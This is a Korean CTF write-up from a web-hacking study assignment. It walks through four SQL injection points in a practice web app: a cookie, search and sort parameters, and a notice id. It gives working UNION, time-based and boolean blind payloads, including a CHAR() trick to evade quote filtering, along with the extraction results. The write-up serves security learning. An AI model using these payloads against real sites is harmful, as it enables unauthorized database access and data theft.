# 웹해킹 스터디 8주차 과제: SQL Injection Point


## 개요

- 이 문서는 SQL Injection 포인트를 활용한 CTF 문제 풀이 기록입니다.
- 주어진 웹 애플리케이션에서 게시판, 로그인, 쿠키 등 다양한 입력 지점을 탐색하여 SQL 인젝션이 가능한 취약점을 찾아내는 것이 목표입니다. 
- 각 입력값에 대한 서버의 반응을 분석하며, 인젝션 성공 여부를 판단하고, 이를 통해 최종적으로 플래그를 획득해야 합니다.

---

## CTF 문제 풀이

### SQL Injection Point 1

- 문제의 시작 화면은 아래와 같다.


- 로그인과 게시판을 중심으로 페이지를 탐색하며, **SQL 인젝션이 가능할 만한 지점들을 직접 확인**해야 한다.

우선 회원가입을 진행한 후, 생성한 계정으로 로그인하였다.


- 로그인에 성공하자 마이페이지, 게시판, 로그아웃 버튼이 나타나는 메인 페이지로 이동하였다.

우선 마이 페이지로 들어가 보겠다.



- 마이페이지에 들어가면, 로그인한 계정의 아이디(`1111`)가 상단에 표시되고, 아래에는 비밀번호 변경 입력란이 존재한다.

-  여기서 **아이디 `1111`이 서버로부터 동적으로 출력되는 방식**을 보고, 내부적으로 `SELECT` 문을 이용해 사용자 정보를 가져오는 것으로 추정할 수 있다.

- 따라서 해당 페이지에서 SQL Injection이 가능한지를 판단하기 위해, **Burp Suite를 이용해 요청/응답 데이터를 분석**해보기로 했다.



- 마이페이지에 표시되는 아이디(`1111`)가 이 쿠키 값을 기반으로 출력되고 있는 것으로 보이며,
이는 내부적으로 다음과 같은 쿼리가 실행되고 있을 가능성을 시사한다.

```sql
SELECT ? FROM ? WHERE user = '1111';
```

- `user` 쿠키 값에 SQL 인젝션 페이로드를 삽입해 서버의 반응을 관찰하는 방식으로 **SQL Injection을 시도**할 수 있다고 판단하였다.



| 쿠키 값               | 결과                    | 의미              |
| ------------------ | --------------------- | ---------------- |
| `1111' and '1'='1` | `Nothing Here...` 표시됨 | 조건이 참 |
| `1111' and '1'='2` | `Nothing Here...` 사라짐 | 조건이 거짓   |

- 이로써 해당 포인트에서 **SQL Injection이 가능함을 확인**할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```html
1111' order by 1 #
```

> **컬럼 개수: 1개**

```html
' union select database() #
```

> **데이터베이스 이름: `sqli_6`**

- 데이터베이스 이름을 식별했으므로, 이제 이를 기반으로 **테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출해보겠다.

```html
' union select table_name from information_schema.tables where table_schema='sqli_6' limit 1,1 #
```

> **테이블 이름: `flag_table`**

```html
111' union select column_name from information_schema.columns where table_schema='sqli_6' and table_name='flag_table' limit 1,1 #
```

> **컬럼 이름: `flag`**

테이블명과 컬럼명을 모두 확인하였다.
이제 해당 테이블을 활용하여 **플래그 값**을 추출해보겠다.

```html
' union select flag from flag_table limit 1,1 #
```



**이렇게 최종적으로 flag까지 성공적으로 획득하였다.**

---

### SQL Injection Point 2

- 이번에는 **게시판 기능을 탐색**해보겠다.



- 게시판에 게시물을 몇 개 등록한 후, **검색 및 작성자 필터 기능이 `SELECT` 문을 기반으로 동작할 것으로 판단**하여 Burp Suite로 요청을 확인해보았다.



- Burp Suite를 통해 게시판 검색 요청을 확인해보니,
다음과 같은 파라미터가 POST 방식으로 전달되고 있었다.

```html
option_val=username
board_result=1111
```

- 이를 통해 내부 SQL 쿼리는 다음과 같은 구조로 동작하는 것으로 추정된다.

```sql
SELECT ? FROM ? WHERE username LIKE '%1111%';
```

- 우선 `option_val` 파라미터에 `and` 조건을 삽입하여 SQL 인젝션을 시도해보았다.

```html
username and '1'='1'#
```



- 이를 통해 내부 쿼리가 항상 **참**이 되도록 만들어,
모든 게시물이 필터링 없이 노출되는 현상을 확인할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```html
username order by 10#
```

> **컬럼 개수: 10개**

```html
username union select database(),2,3,4,5,6,7,8,9,10#
```



- 페이지 하단에 존재하지 않던 새로운 행이 추가되었고,
**User ID 열에 `sqli_7`이 출력**되며 현재 사용 중인 데이터베이스 이름이 성공적으로 추출되었음을 확인할 수 있었다.

> **데이터베이스 이름: `sqli_7`**

- 데이터베이스 이름을 확인했으므로, 이제 **`information_schema`를 활용해 테이블과 컬럼 정보**를 식별하고,
최종적으로 **플래그 값을 추출하는 단계**로 넘어가겠다.

```html
username union select (select table_name from information_schema.tables where table_schema='sqli_7' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **테이블 이름: `flagTable`**

```html
username union select (select column_name from information_schema.columns where table_schema='sqli_7' and table_name='flagTable' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **컬럼 이름: `flag`**

```html
username union select (select flag from flagTable limit 2,1),2,3,4,5,6,7,8,9,10#
```



**이렇게 최종적으로 flag까지 획득했다.**

---

### SQL Injection Point 3



- 게시판 요청에서는 `sort`라는 파라미터가 추가되어 있으며, 해당 값으로 `views`를 입력하자,
게시물들이 **조회수(Views) 기준으로 오름차순(ASC) 정렬**되는 현상을 확인할 수 있었다.

- 서버 내부에서 다음과 같은 쿼리가 실행되고 있을 가능성이 있다.

```sql
SELECT ? FROM ? WHERE username LIKE '%12%' ORDER BY views ASC;
```

이를 이용하여 `ORDER BY`에 숫자를 하나씩 증가시키며 삽입해봄으로써,
쿼리에 사용된 컬럼 개수를 확인해보겠다.

| 값  | 결과                   |
| -------------- | -------------------- |
| `10`           | 게시물 출력 됨        |
| `11`           | 게시물 출력 안 됨 |

> 정상 출력되는 최대 숫자가 10이므로, **컬럼 개수는 `10개`임을 확인**할 수 있다.

정렬 기준으로 사용되는 `sort` 파라미터에 SQL 구문을 삽입하여, **Time-Based Blind SQL Injection 가능성**을 테스트해보았다.

```html
views, (select sleep(3))
```

- 위와 같은 값을 삽입하자, 페이지 응답이 약 **3초 이상 지연되는 현상**이 발생하였다.
이를 통해 서버가 해당 `SLEEP(3)` 구문을 실제로 실행하고 있음을 확인하였다.


Time-Based Blind SQL Injection이 성공적으로 확인되었으므로,
이를 기반으로 Python 스크립트를 작성하여 다음과 같은 순서로 자동화 공격을 수행하겠다.
1. 데이터베이스 이름 추출
2. 테이블 목록 추출 (`information_schema.tables`)
3. 특정 테이블의 컬럼 목록 추출 (`information_schema.columns`)
4. 플래그 값 추출

```html
views, (select if(ascii(substring((select database()), ?, 1))=?, SLEEP(3), 0))
```

> **데이터베이스 결과:**
```csharp
[1] = 115 → s
[2] = 113 → sq
[3] = 108 → sql
[4] = 105 → sqli
[5] = 95 → sqli_
[6] = 56 → sqli_8
End
result: sqli_8
```

- 테이블 추출:

```html
views, (select if(ascii(substring((select table_name from information_schema.tables where table_schema='sqli_8' limit ?,1), ?,1))=?, SLEEP(3), 0))
```

> **테이블 결과:**
```csharp
[2 행]:
1 번째 값 = f → f
2 번째 값 = l → fl
3 번째 값 = a → fla
4 번째 값 = g → flag
5 번째 값 = _ → flag_
6 번째 값 = T → flag_T
7 번째 값 = a → flag_Ta
8 번째 값 = b → flag_Tab
9 번째 값 = l → flag_Tabl
10 번째 값 = e → flag_Table
End
```

- 컬럼 추출:
```html
views, (select if(ascii(substring((select column_name from information_schema.columns where table_schema='sqli_8' and table_name='flag_Table' limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

> **컬럼 결과:**
```csharp
1. idx
2. flagData
3.
4.
5.
```

- 플래그 추출:
```html
views, (select if(ascii(substring((select flagData from flag_Table limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```



**이렇게 최종적으로 flag를 획득하였다.**

---

### SQL Injection 4

- 이제 게시판에 접근하여, 게시물 관련 기능에서 SQL Injection이 가능한 지점을 탐색해보겠다.



- 이제 Burp Suite를 활용해 SQL Injection 포인트를 직접 탐색해보겠다.



분석 결과, `notice_read.php` 요청에서 `id` 파라미터를 조작하여 SQL Injection이 가능할 것으로 보인다.

- 먼저 `id=118+or+1=1`로 요청을 보낸 결과, **게시물이 정상적으로 출력**되었다. 반면, `id=118+or+1=2`로 요청했을 때는 **`제목: test`, `내용: testtest` 라는 이상한 게시물 출력**되었다.

- 이 결과를 통해 `id` 파라미터 값이 SQL 쿼리에 직접 삽입되고 있다는 걸 알 수 있다.

이를 기반으로 **Boolean-Based Blind SQL Injection**을 시도하여, **데이터베이스 명,테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출할 예정이다.

```html
118 or ASCII(SUBSTRING(DATABASE(),?,1))=? and 1=1
```

> **데이터베이스 이름: `sqli_9`**

다음으로는 `information_schema.tables`를 활용하여, 현재 데이터베이스에 존재하는 테이블 이름을 한 글자씩 추출해보겠다.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'sqli_9'
```

- 그러나 `'sqli_9'`과 같이 문자열을 따옴표로 감싸는 방식이 필터링되어 서버 응답이 정상적으로 나오지 않았다.

이에 따라 문자열 리터럴을 우회하기 위해 `CHAR()` 함수를 활용한 인코딩 방식으로 우회하였다.

```html
118 or ASCII(SUBSTRING((SELECT table_name from information_schema.tables where table_schema=CHAR(115,113,108,105,95,57) LIMIT ?,1),?,1))=? and 1=1
```

> **테이블 결과:**
```csharp
[2 행]
[1] = f → f
[2] = l → fl
[3] = a → fla
[4] = g → flag
[5] = H → flagH
[6] = e → flagHe
[7] = r → flagHer
[8] = e → flagHere
End
```

- 테이블명을 성공적으로 추출했으므로, 이제 해당 테이블의 컬럼 이름을 구해보겠다.

```html
118 or ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=CHAR(115,113,108,105,95,57) and table_name=CHAR(102,108,97,103,72,101,114,101) LIMIT ?,1),?,1))=? and 1=1
```

> **컬럼 결과:**
```csharp
1. idx
2. flag
3.
4.
5.
```

- **최종 플래그 값 추출:**
```html
118 or ASCII(SUBSTRING((select flag from flagHere LIMIT ?,1),?,1))=? and 1=1
```



**이렇게 최종적으로 flag를 획득 했다.**

---

## 느낀 점

이번 과제를 통해 다양한 게시판 기능이나, **사용자에게 보이지 않는 파라미터에서도 SQL Injection 취약점이 존재할 수 있다는 점**을 배웠다.
또한 단순한 입력값 조작만으로도 중요한 정보를 추출할 수 있다는 점에서, **파라미터 검증의 중요성**을 다시 느꼈다.
